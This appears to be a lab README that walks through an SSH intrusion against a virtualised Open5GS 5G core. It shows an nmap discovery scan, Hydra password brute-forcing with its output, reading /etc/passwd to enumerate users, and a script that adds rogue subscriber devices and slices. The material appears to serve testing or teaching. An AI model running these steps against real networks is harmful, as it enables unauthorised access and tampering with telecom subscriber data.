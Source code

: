 # SSH Intruision

In this example the core network (running on 10.0.2.4) has an ssh server running to give admins remote access. The goal is for an attacker to discover this server, get access, and adjust the registered User epuipments as they like.

## Step One - Discovery

First the SSH server has to be discovered, this will be done with [Nmap](https://nmap.org/).
``` console
user@ue:~$ sudo nmap -p ssh 10.0.2.4 #check ssh
```
Resulting in the output:
``` console
Starting Nmap 7.80 ( https://nmap.org ) at 2022-11-28 16:10 CET
Nmap scan report for 10.0.2.4
Host is up (0.00068s latency).

PORT   STATE SERVICE
22/tcp open  ssh
MAC Address: 08:00:27:A1:1D:E8 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 0.27 seconds
```

## Step Two - Bruteforce

To connect to the server we need the login information of a user. For this we will use [Hydra](https://www.kali.org/tools/hydra/) which uses the list of most common passwords and usernames to try to find functioning pair of login data.
``` console
user@ue:~$ hydra -I -L ../Lists/Username_list.txt -P ../Lists/Password_list.txt 10.0.2.4 ssh -t 4
```
Resulting in the output:
``` console
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-11-28 16:10:17
[DATA] max 4 tasks per 1 server, overall 4 tasks, 374 login tries (l:17/p:22), ~94 tries per task
[DATA] attacking ssh://10.0.2.4:22/
[22][ssh] host: 10.0.2.4   login: admin   password: admin
[STATUS] 66.00 tries/min, 66 tries in 00:01h, 308 to do in 00:05h, 4 active
[STATUS] 47.33 tries/min, 142 tries in 00:03h, 232 to do in 00:05h, 4 active
[STATUS] 41.29 tries/min, 289 tries in 00:07h, 85 to do in 00:03h, 4 active
[STATUS] 41.12 tries/min, 329 tries in 00:08h, 45 to do in 00:02h, 4 active
[STATUS] 40.56 tries/min, 365 tries in 00:09h, 9 to do in 00:01h, 4 active
1 of 1 target successfully completed, 1 valid password found
```
## Step Three - Access

Now that we have access to the server we log in useing the password and username we found in the above step.
``` console
user@ue:~$ ssh admin@10.0.2.4
```

## Step Four - Poking about

Now that we are in the machine, we want to check where we can find core services running also if there might be other users on the machine.
``` console
admin@core:~$ otheruser=$(grep -w -v -e "nologin" -e "bin/false" -e "admin" -e "root" -e "sync" /etc/passwd | cut -d ":" -f 1)
admin@core:~$ echo "there is another user:  ${otheruser}"
admin@core:~$ path_to_open_5gs=$(find / -type d -name "open5gs" | head -n 1)
admin@core:~$ echo ${path_to_open_5gs}
admin@core:~$ cd ${path_to_open_5gs}
```

Once we have the path of Open5gs we can use the python API to delete and or add subscribed UE's. To see the procces for that please refer to files [create_rogue_ue.sh](./create_rogue_ue.sh) and [delete_rogue_ue.sh](./delete_rogue_ue.sh)

## Step Five - Put it all together

To do all the following:

1. Scan for an ssh server.
2. Brutforce login.
3. Add a rogue UE with a Rogue Slice in the core.
4. Connect that rogue UE to the core. (in the works)
5. Delete the rogue UE and slice.

run the following:

```console
user@ue:~$ ./ssh_rogue.sh
```

